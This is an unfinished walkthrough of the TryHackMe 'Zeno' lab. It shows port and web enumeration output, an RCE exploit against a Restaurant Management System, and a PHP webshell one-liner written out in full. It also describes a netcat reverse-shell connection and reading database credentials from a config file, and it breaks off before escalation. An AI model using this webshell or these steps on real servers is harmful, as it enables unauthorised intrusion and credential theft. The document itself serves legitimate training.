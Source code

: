 # Zeno (unfinished writeup)

Writeup for [Zeno](https://tryhackme.com/room/zeno) room at [TryHackMe](https://tryhackme.com/).
URL for this room is: https://tryhackme.com/room/zeno

Table of Contents
=================
* [Port Scan](#Port-scan)
* [Enumerating the Webserver](#Enumerating-the-Webserver)
* [Remote Code Execution](#Remote-Code-Execution)
* [Gaining Access](#Gaining-Access)

# Port scan
Firstly, I have set an environment variable `IP` of the target machine's IP address.
Then I have conducted ***Nmap SYN*** scan against all of the TCP ports of the target machine with the command `sudo nmap -vv -sS -p- $IP` to see which ports are open. I had saved the following output to a file with `-oN` flag:

```
# Nmap 7.60 scan initiated Sat Oct 23 10:27:21 2021 as: nmap -vv -sS -p- -oN enum.txt 10.10.154.116
Nmap scan report for ip-10-10-154-116.eu-west-1.compute.internal (10.10.154.116)
Host is up, received arp-response (0.00042s latency).
Scanned at 2021-10-23 10:27:21 BST for 155s
Not shown: 65533 filtered ports
Reason: 65372 no-responses and 161 host-prohibiteds
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
12340/tcp open  unknown syn-ack ttl 64
MAC Address: 02:F5:20:98:22:CD (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct 23 10:29:57 2021 -- 1 IP address (1 host up) scanned in 155.84 seconds
```

The open ports are:
1. Port ***22*** runnign SSH service.
2. Port ***12340*** with an unknown service running.
Against those ports I have performed a more comprehensive scan with the command `nmap -vv -O -sV -sC -p 22,12340 $IP`. I was able to get the following information:

```
#Nmap 7.60 scan initiated Sat Oct 23 10:38:03 2021 as: nmap -vv -O -sV -sC -p 22,12340 -oN open_ports.txt 10.10.94.20
Nmap scan report for ip-10-10-154-116.eu-west-1.compute.internal (10.10.154.116)
Host is up, received arp-response (0.00043s latency).
Scanned at 2021-10-23 10:38:03 BST for 17s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: OPTIONS GET HEAD POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
MAC Address: 02:F5:20:98:22:CD (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.13 (93%), Linux 3.8 (93%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.60%E=4%D=10/23%OT=22%CT=%CU=%PV=Y%DS=1%DC=D%G=N%M=02F520%TM=6173D80C%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10B%TI=Z%TS=A)
OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M2301NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.030 days (since Sat Oct 23 09:55:45 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 23 10:38:20 2021 -- 1 IP address (1 host up) scanned in 16.85 seconds
```
On port ***22*** an `OpenSSH 7.4` ssh service is running.
On port ***12340*** an `Apache httpd 2.4.6 (CentOS)` webeserver is running. This webserver also has `PHP/5.4.16` installed.

# Enumerating the Webserver

Connecting to the webserver from within a browser gives ***Resource not found*** error shown below.

![Resource not found](/Zeno/images/Resource_not_found.png)

I have then used `nikto -h $IP -p 12340` command to enumerate the webserver's directories. The output of this command was:

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.154.16
+ Target Hostname:    ip-10-10-154-16.eu-west-1.compute.internal
+ Target Port:        12340
+ Start Time:         2021-10-23 11:05:36 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.6 (CentOS) PHP/5.4.16
+ Server leaks inodes via ETags, header found with file /, fields: 0xf39 0x5c80c1adc76e0
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2021-10-23 11:05:46 (GMT1) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested``
```

For further enumeration of the webserver's directories I have used `gobuster dir -u http://$IP:12340 -w /usr/share/wordlists/dirb/big.txt` command, which resulted in the following:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.154.116:12340/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/10/23 14:20:25 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/rms (Status: 301)
===============================================================
2021/10/23 14:20:28 Finished
===============================================================
```

The scan lists three possible directories, from which only `/rms` one is accessible. Going to this webserver's directory via a browser gives a homepage of Pathfinder Hotel Restaurant Management System.

![Restaurant management system](/Zeno/images/Restaurant_management_system.png)

The Google search of `restaurant management system exploit` led to a Remote Code Execution exploit for this system, written in Python.

# Remote Code Execution

The downloaded exploit had formatting issues and a broken hardcoded proxy.
Fixing formatting and deleting code for proxy led to a successful upload of a webshell `<?php echo shell_exec($_GET["cmd"]); ?>` at http://$IP:12340/rms/images/reverse-shell.php URL, which shows blank page.

![Blank exploit page](/Zeno/images/Blank_exploit_page.png)

Although the uploaded webshell can accept commands with the syntax of http://$IP:12340/rms/images/reverse-shell.php?cmd=<argument>. For example, id argument prints this:

![System ID](/Zeno/images/System_ID.png)

At this point I am doing the following:

1. Exporting 1234 as a listening port - LPORT - and setting up a netcat listener with `nc -lnvp $LPORT`.
2. Passing a Python reverse shell found at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) as an argument to the webshell URL.

The webpage is blank, but the listener captured a shell connection!


![Reverse shell](/Zeno/images/Reverse_shell.png)

# Gaining Access

Going to the server's home directory shows that the user `edward` is on the system.
Tried Hydra for cracking edward's SSH password but no luck there.
Getting back to /var/www/html/rms/connection folder and listing it's contets shows a config.php file. Inside this file there are credentials for the root user of a database.

![Database credentials](/Zeno/images/Database_credentials.png)

Although connecting to mysql database from the shell with these credentials resulted in an error.
